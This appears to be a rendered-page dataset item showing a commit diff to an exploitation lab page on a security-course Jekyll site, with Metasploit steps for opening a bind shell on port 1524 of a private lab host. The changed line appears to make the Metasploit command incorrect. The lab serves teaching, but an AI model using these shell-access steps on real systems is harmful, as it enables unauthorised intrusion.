

Before and after one commit to security-assignments/security-assignments.github.io, a Jekyll site: the page built from _labs/lab_exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 12418 px. Shown: the part 146-452 px from the top of the window, without its empty margins (38-944 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_labs/lab_exploitation.md
+++ b/_labs/lab_exploitation.md
@@ -584,7 +584,7 @@ Now, exploit three additional services.
     * easy way, skip metasploit and use `netcat` (`nc`)
         * Read basic docs flex your self-learning muscle!
     * metasploit way:
-        * use exploit/multi/handler
+        * use payload exploit/multi/handler
         * set payload generic/shell_bind_tcp
         * set lport 1524
         * set rhost 192.168.55.102
```
Also changed, not shown: _labs/lab_physical_security_scavenger_hunt.md (+0 -2 lines).
